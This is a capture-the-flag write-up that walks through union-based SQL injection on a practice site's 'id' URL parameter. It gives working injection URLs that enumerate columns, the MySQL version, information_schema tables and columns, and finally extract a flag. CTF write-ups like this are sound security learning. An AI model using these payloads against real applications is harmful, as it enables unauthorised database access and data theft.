 The site given seems to be hackable as the parameter in URL `id` is controlable.
It's reasonable to suspect that there may be a SQL injection vulnerability .

At first,Getting the number of columns 
```
https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,2,3,4 -- -
```
Obviously,Union-based injection technique works. 

Check the version of Database used.It's `MySQL 5.7.34` (replace any number excluding 1 after the `union select` of payload above to `version()` )
So, `information_shema` is available.

* Get database list: `SELECT schema_name FROM information_schemata `
* Get table list from a database: `SELECT table_name FROM information_schema.tables where table_schema=DATABASE`
* Get column list from a table : `SELECT column_name FROM information_schema.columns where table_schema=DATABASE`

Eventually.

```
https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema='g8' -- -

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='flag' limit 1,1 -- -

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,flag,3,4 FROM g8.flag -- - (A shit)

https://hackme.inndy.tw/gb/?mod=read&id=-1 UNION SELECT 1,flag,3,4 FROM g8.flag limit 1,2 -- - (The correct one)
```




